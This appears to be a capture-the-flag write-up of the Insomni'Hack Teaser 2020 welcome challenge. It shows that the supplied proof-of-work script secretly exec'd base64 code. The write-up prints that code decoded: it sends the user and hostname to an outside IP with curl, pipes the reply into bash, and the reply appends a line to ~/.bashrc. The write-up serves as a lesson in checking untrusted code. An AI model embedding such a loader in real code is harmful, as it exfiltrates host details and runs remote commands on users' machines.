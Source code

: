 * Obtained the PWN code from the ZIP. 
* Given a server to connect to, we need to
  * Crack MD5 Hash to match last 6 characters of the hash
  * The pow code already given iterates through the numbers to crack the hash
    * So it is number iteration --> hash --> match check
* Looking closely at the code given by the challenge developers, they are also executing somecode using `exec` with base64 encoded version of the code to get the SYSTEM NAME/HOSTNAME and OS TYPE.

* Faking the input and accessing the Server reveals just THANKS.
```
exec(base64.b64decode('Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp'))

global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)

root@kali:~/Desktop# curl -Ns 34.65.187.141/posix/user@arch
base64  -d >> ~/.bashrc <<< ZXhwb3J0IFBST01QVF9DT01NQU5EPSdlY2hvIFRIQU5LIFlPVSBGT1IgUExBWUlORyBJTlNPTU5JSEFDSyBURUFTRVIgMjAyMCcK

root@kali:~/Desktop# echo "ZXhwb3J0IFBST01QVF9DT01NQU5EPSdlY2hvIFRIQU5LIFlPVSBGT1IgUExBWUlORyBJTlNPTU5JSEFDSyBURUFTRVIgMjAyMCcK" | base64 -d

export PROMPT_COMMAND='echo THANK YOU FOR PLAYING INSOMNIHACK TEASER 2020'
root@kali:~/Desktop# 
```

* Get the FLAG
```
root@kali:~/Desktop/insomnia# python pwn_welcome.py welcome.insomnihack.ch 1337 ")"
[+] Opening connection to welcome.insomnihack.ch on port 1337: Done


======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "e71988" and get the flag ;)
Target: e71988
Found: 29054
[*] Switching to interactive mode



MITM are real: check SHA, check code, ...

INS{Miss me with that fhisy line}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
root@kali:~/Desktop/insomnia# 

```